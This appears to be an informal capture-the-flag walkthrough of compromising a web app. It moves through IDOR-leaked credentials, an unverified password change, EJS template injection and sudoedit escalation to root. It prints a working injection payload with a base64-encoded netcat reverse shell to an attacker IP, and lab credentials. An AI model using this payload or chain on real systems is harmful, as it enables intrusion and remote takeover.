this website is running :

tech_Stack :

dirbusteing:

dont have any interesting dir :

source code enum :
contains nothing,

vhosting:

we found a vhost :

add this into /etc/hosts: for maping

an admin pannel is hostied there :

and we have creds for this : given 

### Olivia Cortez : olivi8

and we have some payment details mention there :

we dont have permission to view /settings page :

some meseges we can see on /meseges page :

i change the value in messge paremeter and i got old chat messgese (IDOR)

     **Gayle Bev** :p~]P@5!6;rs558:q
     
     
     and i login as gayle and can access settings page :
     
     
     
     
     
     and we can see it is not verifying the user before changing the password :
     
     
     
     
     
     
     when i remove password paremeter : i got 500 internal error and notice that we can see internal files :
     but files are ending with .ejs 
     
     and username is web :

we found that there is server side template injection vulnerability in ejs :

and i found this payload :
name=a&password=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c “echo YnVzeWJveCBuYyAxMC4xNy4xMjMuNjAgMTMzNyAtZSAvYmluL2Jhc2gK  | base64 -d | bash”');//

 

name=a&password=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process')

and we got a shell after a lot of trial and error :

and i look for sudo permisssions :

and i perform sudoedit privilege escalation and got root















